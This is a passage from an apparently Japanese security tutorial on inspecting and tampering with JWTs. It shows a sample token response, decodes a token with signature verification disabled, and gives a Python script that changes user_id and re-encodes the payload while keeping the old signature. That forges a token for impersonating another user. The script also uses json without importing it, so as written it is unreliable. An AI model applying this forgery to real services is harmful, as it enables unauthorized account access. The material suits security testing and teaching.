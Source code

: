 レスポンス例：
```json
{
  "access": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJleHAiOjE2MzA1MjQwMjB9.1Q2w3e4r5t6y7u8i9o0p",
  "refresh": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJleHAiOjE2MzA1MjQwMjB9.1Q2w3e4r5t6y7u8i9o0p"
}
```

#### 2.2 JWT をデコードして内容を確認
JWT は Base64 エンコードされているため、デコードして内容を確認できます。以下のツールを使用できます：
- [jwt.io](https://jwt.io/)
- Python の `jwt` ライブラリ

例：
```python
import jwt

token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJleHAiOjE2MzA1MjQwMjB9.1Q2w3e4r5t6y7u8i9o0p"
decoded = jwt.decode(token, options={"verify_signature": False})
print(decoded)
```

出力例：
```json
{
  "user_id": 1,
  "exp": 1630524020
}
```

#### 2.3 JWT を改ざんする
JWT のペイロード部分を改ざんします。例えば、`user_id` を変更します。

1. JWT をデコードしてペイロードを変更します。
2. 変更したペイロードを再度 Base64 エンコードします。
3. 新しい JWT を作成します。

例：
```python
import jwt
import base64

# 元のトークン
token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJleHAiOjE2MzA1MjQwMjB9.1Q2w3e4r5t6y7u8i9o0p"

# ヘッダーとペイロードを分割
header, payload, signature = token.split('.')

# ペイロードをデコードして変更
decoded_payload = jwt.decode(token, options={"verify_signature": False})
decoded_payload["user_id"] = 2  # user_id を変更

# 変更したペイロードをエンコード
new_payload = base64.urlsafe_b64encode(json.dumps(decoded_payload).encode('utf-8')).decode('utf-8').rstrip('=')

# 新しい JWT を作成
new_token = f"{header}.{new_payload}.{signature}"
print(new_token)
```
